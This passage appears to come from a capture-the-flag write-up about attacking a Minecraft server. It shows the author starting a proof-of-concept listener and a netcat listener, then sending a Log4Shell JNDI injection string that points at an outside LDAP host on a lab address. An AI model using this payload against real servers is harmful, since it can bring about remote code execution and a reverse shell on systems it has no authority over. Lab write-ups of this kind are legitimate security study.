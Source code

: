 ![Before](img/16_crafty.png) ![After](img/17_crafty.png)

With the modifications done, I started the PoC listener and my own `$ nc` listener, joined back to the Minecraft server and sent the command (`${jndi:ldap://10.10.14.66:1389/a}`):  